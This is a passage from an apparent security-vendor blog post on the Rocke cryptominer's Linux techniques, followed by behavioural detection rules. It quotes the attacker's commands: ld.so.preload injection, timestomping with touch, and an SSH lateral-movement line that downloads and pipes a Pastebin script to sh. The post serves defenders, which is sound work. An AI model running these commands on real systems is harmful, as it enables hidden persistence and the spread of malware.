 shared object, the Linux equivalent of a Windows Dynamic-Link Library (DLL). To execute the code Rocke modifies /etc/ld.so.preload, a configuration file that will inject listed shared objects into executing processes on a Linux system.echo /usr/local/lib/libntpd.so > /etc/ld.so.preloadThis will prevent processes such as the ps utility from observing kworkerds, but it will not prevent security software that monitors syscalls from observing the malicious process. Trend Micro showed the effects of this technique in a blog post.The ld.so.preload configuration file isn’t modified very often outside certain software packages. This can be a medium confidence alert once it’s been tuned for a given environment, with much higher confidence when combined with other means of detection previously addressed.Changing Timestamps (T1099)This adversary uses the touch command to manipulate timestamps on victim systems in a process known as “timestomping.” This technique hinders filesystem forensic analysis to determine what files were modified around the time of illicit activity. To modify timestamps, numerous commands similar to this are issued:touch -acmr /bin/sh /etc/cron.hourly/oanacronerThis command allows Rocke to change the access and modification timestamps (as indicated by the a and m flags) of /etc/cron.hourly/oanacroner without creating the file if it doesn’t already exist (via the c flag). The modification of timestamps with touch usually uses the current system time unless told otherwise. In this case, Rocke uses touch with the r command flag to specify a reference file of /bin/sh. This allows touch to copy timestamps from /bin/sh and apply them to the specified script file left by the adversary. This action blends the timestamps of numerous malicious files in with the timestamps of files changed during updates and installations.Lateral Movement with SSH (T1021)Adversaries deploying cryptocurrency miners on Windows commonly use built-in services to move laterally, and the same is true of Linux systems in this case. Rocke looks for the presence of SSH public key configuration and a list of known local hosts on a Linux server to move laterally. If these materials are present, the adversary issues commands using the ssh utility such as these, where $h is a variable in the script for discovered hosts:ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h '(curl -fsSL hxxps://pastebin[.]com/raw/1NtRkBc3||wget -q -O- hxxps://pastebin[.]com/raw/1NtRkBc3)|sh'If it successfully connects to any other system, the same sequence of events described in the rest of the article happens on connected systems. This behavior can lead to a medium confidence alert once some tuning brings system administration and software deployment noise down.Behavioral Indicators of CompromiseDetecting Stops of Miner Processes High Confidence Process is pkill AND Command line contains stratum, minerd, xmr, OR cryptonightRecon of Miner Network Connections Medium Confidence, tune out JAMF configuration management if needed Process is grep AND Command line contains :3333, :4444, OR :5555Downloading from Pastebin High Confidence Process is curl OR wget AND Command line contains pastebin.comDownloading Binary to Temporary Folders Medium Confidence, tune out configuration management systems Process is curl OR wget AND Writes ELF binary to /tmp/, /var/tmp, OR /dev/shmTimestamp Manipulation High Confidence, fragile due to ability to change command line flags Process is touch AND Command line contains  -acmr Code Injection Using Preload Medium confidence, tune out system monitoring and backup systems File modified is /etc/ld.so.preloadLateral Movement Using SSH Medium confidence, tune out software deployment Process is ssh AND Command line contains curl, wget, AND |shTesting in Your EnvironmentTo test your security controls, Atomic Red Team contains a chain reaction to emulate Rocke’s behavior without lateral movement. For added realism, consider uploading the chain reaction to Pastebin for download and execution.Chain reaction start: https://github.com/redcanaryco/atomic-red-team/blob/master/ARTifacts/Chain_Reactions/rocke-and-roll-stage-01.shConclusionThe tools and techniques used by Rocke to compromise Linux systems exhibit clear-cut, malicious behavior, and you can definitely use the behaviors to detect this actor in your environment. Approaching with the recommended steps will help you build detection capabilities for your Linux endpoints that will mirror coverage you have for the Windows portion of your network.Related Articles Look beyond processes with Linux EDR Linux securityLook beyond processes with Linux EDR Contain yourself: An intro to Linux EDR Linux securityContain yourself: An intro to Linux EDR eBPFmon: A new tool for exploring and interacting with eBPF applications Linux securityeBPFmon: A new tool for exploring and interacting with eBPF applications eBPF: A new frontier for malware Linux securityeBPF: A new frontier for malware Subscribe to our blog     See what it's like to have a security ally.Experience the difference between a sense of security and actual security. Get a Demo                                           ProductsManaged Detection and Response (MDR)Readiness ExercisesLinux EDRAtomic Red Team™Mac MonitorSolutionsDeliver Enterprise Security Across Your IT EnvironmentGet a 24×7 SOC InstantlyProtect Your Corporate Endpoints and NetworkProtect Your Users’ Email, Identities, and SaaS AppsProtect Your CloudProtect Critical Production Linux and KubernetesStop Business Email CompromiseReplace Your MSSP or MDRRun More Effective TabletopsTrain Continuously for Real-World ScenariosOperationalize Your Microsoft Security StackMinimize Downtime with After-Hours SupportResourcesView all ResourcesBlogIntegrationsGuides & OverviewsCase StudiesVideosWebinarsEventsCustomer Help CenterNewsletterPartnersOverviewIncident ResponseInsurance &